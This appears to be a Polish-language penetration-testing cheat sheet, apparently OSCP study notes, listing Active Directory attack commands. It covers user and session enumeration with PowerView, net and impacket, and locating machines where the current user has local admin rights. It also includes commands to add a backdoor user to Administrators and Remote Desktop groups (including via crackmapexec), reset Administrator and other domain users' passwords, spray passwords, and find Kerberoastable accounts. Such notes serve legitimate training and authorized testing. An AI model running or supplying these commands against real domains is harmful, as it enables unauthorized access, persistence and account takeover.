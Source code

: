 <p>#Sprawdzanie swoje <strong>SID</strong> najszybciej przez : <mark style="background-color:#cbffbf" class="has-inline-color">whoami /all</mark> ALE chyba lepiej przez <mark style="background-color:#c8ffbc" class="has-inline-color">Get-DomainUser -SamAccountName offsec</mark> (bo okazuje sie że jest wtedy inne SID) (lub <strong>-Name</strong> zamiast -SamAccountName)<br>#net user ; net user /domain ; net user NAZWA_USERA /domain (zwróć uwage na komentarze do userów)<br>#PS: Get-ADUser -Filter * -Identity offsec -Properties *<br>#PS: Get-ADGroup -Filter *<br>#net user $nazwa-usera #&gt; sprawdz co ma w polu serviceprincipalname<br>#<mark style="background-color:#ccffc0" class="has-inline-color">impacket-GetADUsers -all -dc-ip ip domain.com/user</mark>  (z kaliego)<br><strong>###Userzy###</strong><br>#Get-NetUser (oscp23  ;  PowerView)<br>#Get-NetUser | select samaccountname,lastlogon<br>#Get-NetUser | select cn  (same loginy pokaze)<br>#<mark style="background-color:#b8ffa8" class="has-inline-color">Get-NetUser | select cn,pwdlastset,lastlogon</mark> (oscp23 ; kiedy zmienili swoje haslo i kiedy ostatnio sie logowali)<br>—<br>#Get-UserProperty -Properties pwdlastset (Check last password change)<br>#Get-DomainUsers (pokaże wszystkich userów w domenie z ich przynależnością do grup memberoff)<br>#Get-DomainUser -Name $nazwausera<br>#Get-DomainUser -Properties samaccountname,memberof<br>#Get-DomainUser -Properties samaccountname,description<br>#Get-DomainUser -UACFilter NOT_ACCOUNTDISABLE -Properties Name,SamAccountName,Description | Sort Name<br>#Get-DomainUser -SPN | select Name,SrvicepPincipalnNme (Get kerberoastable users)<br>#Get-DomainUser -Properties samaccountname,description | Where {$_.description -ne $null} (userzy z opisami)<br><strong>###zalogowani###</strong><br>#<mark style="background-color:#b3ffa2" class="has-inline-color">PsLoggedon.exe \ \DC01</mark> (lepszy sposób sprawdzania sesji na konkretnej maszynie ; sysinternals)<br>#Get-NetSession -ComputerName DC01 -Verbose (oscp23, sesje userów na konkretnej maszynie, ale w nowszych Windowsach od późnego 10 nie działa)<br>#Get-NetLoggedon -ComputerName DC01 (Enumerate user logged on a machine)<br>#Find-DomainUserLocation -Domain corp.com | Select-Object UserName, SessionFromName (List machines in domain where specific users are logged into)<br><strong>###persmission###</strong><br>#<mark style="background-color:#b0ff9e" class="has-inline-color">Find-LocalAdminAccess -Verbose</mark> (sprawdzanie mojego aktualnego usera na jakich maszynach ma prawa lokalnego administratora)<br>#Find-LocalAdminAccess  (czy nasz bieżący użytkownik ma uprawnienia administracyjne na komputerach w domenie  #&gt;  PsExec.exe \\client74 cmd.exe)<br>#Invoke-EnumerateLocalAdmin -Verbose (Find local admins on all machines of the domain)<br>#Invoke-UserHunter -Stealth (Find computers were a Domain Admin OR a specified user has a session)<br>#Invoke-UserHunter -ShowAll (Find computers where domain administrators or specified user / group has session)<br>#Invoke-UserHunter -CheckAccess (Confirming admin access)<br>#——user hunting<br>#Find-LocalAdminAccess -ComputerDomain -Verbose<br>#Invoke-EnumerateLocalAdmin –Verbose (Find local admins on all machines of the domain (needs local admin rights on target))<br>#Test-AdminAccess -Verbose (pokazuje gdzie ten user ma admin access)<br>#Find-DomainLocalGroupMember –Verbose (Find local admins on all machines of the domain, must be local admin)<br><strong>###dodanie usera###</strong><br>#<mark style="background-color:#c5ffb8" class="has-inline-color">net user lukasz Password123 /add</mark> (czasami z PS trzeba dodać przedrostek: cmd.exe /c )<br>#<mark style="background-color:#c7ffba" class="has-inline-color">net localgroup „Remote Desktop Users” lukasz /add</mark><br>#<mark style="background-color:#cdffc2" class="has-inline-color">net localgroup „Remote Management Users” lukasz /add</mark><br>#crackmapexec smb 192.168.235.221 -u Administrator -p Password123 –local-auth -x „<mark style="background-color:#fff79e" class="has-inline-color">net localgroup Administrators SKYLARK\kiosk /add</mark>„<br>#net group „Backup Operators” lukasz /add /domain (dla grup w domenie musi być z /domain na końcu)<br><strong>###zmiana hasła usera###</strong><br>#<mark style="background-color:#d0ffc5" class="has-inline-color">net user Administrator Password123</mark> <br>#net user offsec Password123 /domain (zmiana hasła sobie lub innemu userowi do którego mamy np. GenericAll, by oscp23)<br>#$Password = ConvertTo-SecureString „Password123” -AsPlainText -Force #&gt; Set-ADAccountPassword -Identity „T2_ROSS.BIRD” -Reset -NewPassword $Password<br>#Invoke-DomainPasswordSpray -PasswordList .\Passwords.txt -Domain -ErrorAction SilentlyContinue (wcześniej: Import-Module DomainPasswordSpray.ps1)<br><strong>###Co zrobić po zmienie hasła##</strong><br>#runas /user:corp\jen powershell.exe<br><strong>###oscp23###</strong><br>#net user /domain (wykorzystujemy domyślnie instalowany net.exe)<br>#net user jeffadmin /domain</p>
